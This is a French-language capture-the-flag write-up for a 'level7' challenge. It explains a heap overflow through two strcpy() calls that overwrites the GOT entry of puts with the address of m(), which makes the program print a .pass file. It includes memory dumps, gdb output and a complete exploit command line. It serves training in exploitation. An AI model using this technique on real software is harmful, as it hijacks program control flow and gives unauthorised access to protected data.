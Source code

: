 # level7 - GOT Overwrite via Heap Exploitation

## Analyse du Programme

**Structure Mémoire**
- 4 allocations `malloc(8)` successives
- Deux paires de blocs liés:
  - Premier bloc (`0x804a008`) pointe vers buffer1 (`0x804a018`)
  - Deuxième bloc (`0x804a028`) pointe vers buffer2 (`0x804a038`)

```nasm
0x804a008:      0x00000001      0x0804a018      0x00000000      0x00000011
0x804a018:      0x41414141      0x00000000      0x00000000      0x00000011
0x804a028:      0x00000002      0x0804a038      0x00000000      0x00000011
0x804a038:      0x41414141      0x00000000      0x00000000      0x00020fc1
```

- Adresse de saut dans la GOT de `puts`: `0x08049928`

```nasm
(gdb) x/i 0x08048400
   0x8048400 <puts@plt>:        jmp    *0x8049928
```
- Adresse de la fonction `m()`: `0x080484f4`

**Comportement**
- Le programme copie les arguments dans les buffers avec `strcpy()`
- Lecture du fichier `.pass` avec `fopen()` et `fgets()`
- Appel à `puts()` pour afficher un message
- On veut faire un call a la fonction `m()` pour `printf()` le contenu du fichier .pass

## Exploitation

**Stratégie**
- Utiliser le premier `strcpy()` pour écraser l'addresse pointee par le 3eme `malloc()` avec l'adresse GOT de `puts` "0x8049928"
- Utiliser le second `strcpy()` pour écrire l'adresse de `m()` dans la GOT

  ↪ Grace au `strcpy()` precedent, celui-ci va donc modifier la valeur de "0x8049928" par `m()`
- Rediriger ainsi l'exécution de `puts()` vers `m()`

**Commande d'Exploitation**
```bash
./level7 $(python -c 'print "A"*20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
```

Le payload:
1. Premier argument: 20 bytes de padding + adresse jmp GOT de `puts`
2. Second argument: adresse de la fonction `m()`

Cette exploitation redirige l'appel à `puts()` vers la fonction `m()`, permettant l'affichage du contenu du fichier `.pass`.
